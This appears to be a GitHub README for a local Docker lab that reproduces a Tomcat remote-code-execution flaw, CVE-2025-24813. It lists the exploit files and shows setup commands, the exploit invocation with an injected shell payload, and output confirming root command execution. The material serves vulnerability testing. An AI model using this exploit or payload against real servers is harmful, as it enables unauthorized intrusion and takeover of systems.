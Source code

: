 Tomcat CVE-2025-24813 playground
================================
Exploit was forked from https://github.com/absholi7ly/POC-CVE-2025-24813/blob/main/README.md (did not work for me)

Content
=======
1. *ROOT.war* is a minimal app with one servlet including apache-common-3.1 and spawing a session
2. *ysoserial.jar* taken original from ysoserial repo (https://github.com/frohoff/ysoserial)
3. *Dockerfile* to build a vulnerable installation
4. *CVE_2025_24813.py* actual exlploit

Setup
=====
Build and run the vulnerable tomcat installation
```
$ docker build -t tomcat-cve-2025-24813 .
$ docker run --name tomcat-cve-2025-24813 -it -d -p 8080:8080 tomcat-cve-2025-24813
```

Exploit
=======
```
$ python CVE_2025_24813.py --command 'bash -c echo${IFS}$(id)>/tmp/PWN'  http://localhost:8080

 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ███████╗      ██████╗ ██╗  ██╗ █████╗  ██╗██████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██╔════╝      ╚════██╗██║  ██║██╔══██╗███║╚════██╗
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████╗█████╗ █████╔╝███████║╚█████╔╝╚██║ █████╔╝
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝██╔═══╝ ╚════██║██╔══██╗ ██║ ╚═══██╗
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗███████║      ███████╗     ██║╚█████╔╝ ██║██████╔╝
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚══════╝      ╚══════╝     ╚═╝ ╚════╝  ╚═╝╚═════╝
                          ---=== TOMCAT RCE PLAYGROUND by u238 ===---

[*] Session ID: u238
[+] Server is writable via PUT: http://localhost:8080/check.txt
[*] Generating ysoserial payload for command: bash -c echo${IFS}$(id)>/tmp/PWN
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8080/u238.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8080 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

Check (after exploit)
=====
```
$ podman exec tomcat-cve-2025-24813 cat /tmp/PWN
uid=0(root) gid=0(root) groups=0(root)
```
